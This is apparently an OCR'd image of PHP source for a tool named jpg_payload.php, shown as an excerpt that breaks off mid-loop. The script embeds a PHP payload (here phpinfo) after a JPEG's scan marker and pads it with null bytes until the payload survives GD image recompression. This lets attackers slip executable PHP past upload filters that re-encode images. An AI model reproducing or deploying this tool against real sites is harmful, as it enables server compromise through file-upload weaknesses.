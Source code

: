 ```
    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
```
